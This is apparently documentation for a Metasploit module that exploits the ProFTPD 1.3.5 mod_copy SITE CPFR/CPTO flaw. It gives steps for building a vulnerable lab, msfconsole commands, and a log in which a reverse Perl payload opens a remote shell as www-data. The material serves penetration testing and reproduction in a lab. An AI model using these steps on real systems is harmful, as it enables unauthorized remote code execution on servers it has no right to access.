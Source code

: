 ## Vulnerable Application

This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
Any unauthenticated client can leverage these commands to copy files from any
part of the filesystem to a chosen destination. The copy commands are executed with
the rights of the ProFTPD service, which by default runs under the privileges of the
'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
directory, PHP remote code execution is made possible.


## Installation Steps

Download and build:

```sh
wget ftp://ftp.proftpd.org/distrib/source/proftpd-1.3.5.tar.gz
tar zxvf proftpd-1.3.5.tar.gz
cd proftpd-1.3.5
./configure --with-modules=mod_copy
make
```

Run ProFTPD in foreground with `-n` flag for testing:

```
sudo ./proftpd -n
```

Set up a web server with a world-writable directory:

```
sudo apt install php apache2
sudo mkdir /home/var/www/html/test
sudo chmod 777 /var/www/html/test
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/ftp/proftpd_modcopy_exec`
1. Do: `set rhosts <rhosts>`
1. Do: `set rport_ftp <remote ftp port>`
1. Do: `set tmppath <writable temporary file path>`
1. Do: `set sitepath <writable web server file path>`
1. Do: `run`
1. You should get a new session.

## Options

### RPORT_FTP

FTP port (default: `21`)

### TMPPATH

Absolute writable path (default: `/tmp`)

### SITEPATH

Absolute writable website path (default: `/var/www`)


## Scenarios

### ProFTPD 1.3.5 on Ubuntu 22.04

```
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set rhosts 192.168.200.158
rhosts => 192.168.200.158
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > check
[*] 192.168.200.158:80 - The target appears to be vulnerable. 192.168.200.158:21 - Unauthenticated SITE CPFR command was successful
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html/test
sitepath => /var/www/html/test
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set targeturi /test
targeturi => /test
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.158:80 - 192.168.200.158:21 - Connected to FTP server
[*] 192.168.200.158:80 - 192.168.200.158:21 - Sending copy commands to FTP server
[*] 192.168.200.158:80 - Executing PHP payload /test/EbzQzU.php
[+] 192.168.200.158:80 - Deleted /var/www/html/test/EbzQzU.php
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.158:46352) at 2023-03-19 00:22:49 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/test
```

